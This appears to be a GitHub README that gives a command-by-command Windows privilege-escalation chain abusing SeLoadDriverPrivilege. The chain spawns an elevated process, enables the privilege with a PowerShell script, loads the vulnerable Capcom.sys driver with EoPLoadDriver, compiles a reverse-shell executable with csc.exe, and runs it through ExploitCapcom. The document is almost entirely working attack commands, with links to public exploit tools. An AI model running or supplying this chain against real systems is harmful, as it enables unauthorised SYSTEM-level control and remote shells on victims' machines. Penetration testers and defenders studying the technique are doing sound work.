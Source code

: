 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
..* Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
..* Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

[https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
[https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
[https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
[https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)

